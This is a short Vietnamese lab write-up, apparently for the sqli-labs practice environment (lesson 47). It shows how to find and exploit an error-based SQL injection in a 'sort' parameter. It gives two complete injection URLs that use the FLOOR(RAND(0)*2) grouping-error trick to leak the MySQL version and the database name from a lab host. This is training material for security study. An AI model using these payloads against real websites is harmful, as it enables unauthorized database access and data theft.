 # Những việc làm được với lesson-47
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-47

![](../images/lesson47/screen_5.png)

Ta ghi giá trị vào 

![](../images/lesson47/screen.png)

Ta thêm giá trị đặc biệt thì ta sẽ thấy là sẽ có báo lỗi chứng tỏ rằng ta có thẻ sử dụng được error base để có thể truy vấn được dữ liệu của DB

![](../images/lesson47/screen_1.png)

1. Cấu trúc của Error base 
- Thì mỗi một câu truy vấn trong MYSQL có thể được sử dụng một cách khác nhau. Thì ở đây ta có thể tìm cấu trúc của nó 

Từ ảnh dưới đây ta đoán được cấu trúc truy vấn của giá trị sort 

![](../images/lesson47/screen_2.png)

```
sort='$sort'
```

2. Sử dụng error-base 
- Từ cấu trúc có được ta có thể sử dụng được error base 
```
192.168.80.225/sqli-labs/Less-47/?sort=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson47/screen_3.png)

Tương tự như vậy ta có thể tìm ra được DB và tên các DB bằng cách thay đổi select như các lần trước mà ta đã làm 

```
192.168.80.225/sqli-labs/Less-47/?sort=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson47/screen_4.png)

